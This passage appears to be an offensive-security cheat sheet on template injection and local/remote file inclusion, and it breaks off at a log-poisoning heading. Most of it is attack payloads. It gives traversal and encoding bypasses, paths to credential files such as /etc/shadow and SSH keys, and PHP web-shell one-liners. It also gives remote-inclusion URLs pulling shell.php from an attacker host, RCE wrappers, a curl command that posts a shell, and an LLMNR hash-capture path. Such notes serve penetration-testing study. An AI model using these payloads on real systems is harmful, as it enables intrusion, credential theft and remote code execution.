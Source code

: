 ### Template Injection

*   Template Engines  → Mako / Jinja2 / Razor / Handlebars / Smarty / Twig / FreeMaker
*   `<%'${{/#{@}}%>{{`   → Input & Reflected Errors
*   `tplscan() [URL]`     → Crawling & Blind Payload
*   [Exploitations](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) / [Cheat Sheet](https://github.com/Hackmanit/template-injection-table) / [Jinja2 Bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)

### File Inclusion

*   Enumeration
    *   File Fetching / Page Inclusion / Language Parameters
    *   Headers            → `Accept-Language` / `Accept` 
    *   Request Send → Burp Proxy / `curl -ksL --path-as-is [LFI_URL]`
    *   [LFIMap](https://github.com/hansmach1ne/LFImap)
*   Files
    *   Fuzzing Wordlists         → [Generic](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) / [Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) / [Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
    *   Test Files                          → `C:\windows\win.ini` / `/etc/passwd`
    *   Credential Files             → `/etc/passwd`, `/etc/shadow` / `[WEB_ROOT]/.htpasswd` / SSH Keys / SAM & SYSTEM / Config Files
    *   Backend PHP Read     → `php://filter/convert.base64-encode/resource=[BACKEND_FILE]` → Login / Register / Config Files / Filter Bypass
    *   Download Requests    → Binaries / DB / SQLITE3 / Non-Plain Text Files
    *   Virtual Hosts
        *   Config Folders → `/etc/[nginx,apache,apache2,apache24]`, `/usr/local/etc/[nginx,apache,apache2,apache24]`
        *   `[NGINX_CONFIG]/sites-available/default`
        *   `[APACHE_CONFIG]/sites-enabled/000-default.conf`
*   Obfuscation
    *   Absolute Paths    → `/[PATH]` → `\[WIN_PATH]` → `../../../../../../[LIN_WIN_PATH]`
    *   URL                         → `%2e%2e%2f`
    *   Double URL          → `%252e%252e%252f`
    *   UTF-8                      → `%c0%ae%c0%ae/`
    *   Nullbyte                 → `[FILE]%00`
    *   Nested                    → `..././` → `/%5C../` → `..///////..////..//////`
    *   Truncation             → `../[MORE]../[FILE]` → `../[FILE]/././.[MORE]`
    *   PHP Extensions   → `.txt` / `.phtml` / `.png`
    *   PHP Payloads
        *   `<?php echo system('[OS_COMMAND]');?>`
        *   `<?php echo system($_GET['cmd']);?>` → GET Query to `shell.php?cmd=[OS_COMMAND]`
        *   ``<?php echo `[OS_COMMAND]`?>``
*   RCE / LLMNR
    *   RCE                               → Backend File Upload + Folder Discovery
    *   RCE RFI                        → `[http/ftp]://[KALI_IP]/shell.php` / `\\[KALI_SMB_IP]\shell.php` → [Test With Samba](https://0xdf.gitlab.io/2020/03/28/htb-sniper.html)
    *   RCE Wrappers           → `data://text/plain;base64,[BASE64_PHP_SHELL]&cmd=id` / `expect://[OS_COMMAND]`
    *   RCE                               → `curl -s --data "[PHP_CMD_SHELL]" [URL]?param=php://input&cmd=id`
    *   RCE ([Zip Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-zip))    → `zip://shell.jpg/shell.php`
    *   RCE ([Phar Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phar)) → `phar://shell.jpg/shell.php` / [Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#phar-deserialization)
    *   RCE                               → [PHP Filter](https://github.com/synacktiv/php_filter_chain_generator) (No Upload Required)
    *   LLMNR                         → `\\[RESPONDER_IP]\x`
*   Log Poisoning
    *   PHP User Session